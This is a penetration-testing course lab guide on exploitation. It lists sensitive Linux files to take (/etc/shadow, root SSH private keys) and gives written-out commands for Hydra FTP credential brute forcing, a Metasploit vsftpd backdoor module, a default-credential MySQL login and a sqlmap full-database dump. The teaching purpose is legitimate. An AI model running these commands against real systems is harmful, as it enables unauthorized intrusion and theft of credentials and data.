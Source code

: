 ```yaml
---
title: '4. Lab 4: Exploitation'
updated: 2023-04-23 04:14:00Z
created: 2023-04-22 20:55:19Z
---
```

# **Exploitation**
Exploitation is when we take our enumerated targets and capitalize on them.
**REPEAT DISCLAIMER**
As you progress through the exploition process, document your results to the best of your ability for your report. Feel free to look ahead to Lab 5 if you need guidance on what to document.

## **Linux Exfiltration Target Files:**
- These are all target files we should keep a lookout for as they hold confidential information that could compromise CIA
	- /etc/passwd
	- /etc/shadow
	- /etc/issue
	- /etc/group
	- /etc/hostname
	- /etc/ssh/ssh_config
	- /etc/ssh/sshd_config
	- /root/.ssh/id_rsa
	- /root/.ssh/authorized_keys
	- /home/user/.ssh/authorized_keys
	- /home/user/.ssh/id_rsa

## Using Hydra to Bruteforce FTP
- Hydra is a credential bruteforcing tool included with Kali Linux
	- Type 'hydra -hh' in your terminal to view Hydra's full functioanlity:
- To bruteforce with Hydra, we will once again use wordlists, but this time we will use credential lists
	- In your Kali terminal type the following:
		- hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.1.139 -o /home/user/Documents/hydra_ftp.txt
			- The -C flag tells Hydra that the wordlist we are providing has credentials in a 'username:password' format.
			- The -o flag tells Hydra we want to output the results to a text file called hydra_ftp in our Documents folder.
	- Now that we have some credentials from Hydra, type the following in your terminal:
		- ftp 192.168.9.239
			- You will be prompted to log in.
			- Let's try some credential form our bruteforce attack:
			- Username: "user" : Password: "user"
			- Check the current working directory with "pwd"
			- Check the folders and files with "dir"
			- Move back a directory with "cd .."
			- One more time "cd .."
			- "dir" to view all files and folders again
			- See any files worth exfiltrating?
			- Use "get <filename>" in your terminal to retrieve them

## Exploiting FTP With Metasploit
- In your Kali terminal type **msfconsole**
- This is where our vulnerability research comes in handy.
- **msfconsole>** search 'ftp'
	- [NVD - CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
- **msfconsole**> use exploit/unix/ftp/vsftpd_234_backdoor

## Exploiting MySql Manually
- To log into MySql, we use the following login template in our terminals:
	- mysql -h {hostname} -u username -p {databasename}
- Since we don't have any credentials yet, let's do some research on default MySql creds
	- [MySQL - What is the Default Username and Password?](https://dbschema.com/2020/04/21/mysql-default-username-password/#:~:text=The%20default%20user%20for%20MySQL,it%20and%20choose%20another%20one.)
- Using info from our research, we can try the default credentials for MySql
- In your terminal type:
	- mysql -u root -h 192.168.1.103 -p
	- Here we use the -u flag for a username of 'root'
	- Since the default password for MySql is empty, we leave the -p (password) flag empty as well
- Using MySQL in the terminal:
	- From the mysql> prompt:
	- SHOW DATABASES
		- "use 'database_name'"
			- SHOW TABLES

## Exploiting MySql With SqlMap
- You may have noticed some of the other options for SqlMap in the enumeration step. Now is when we get to use them.
- In your terminal, type the following:
	- sqlmap -d "mysql://root:@192.168.9.239:3306/" ---dump-all --output-dir=/home/user/Documents/ 
	- This step dumps the contents of the entire database to our machine.
	

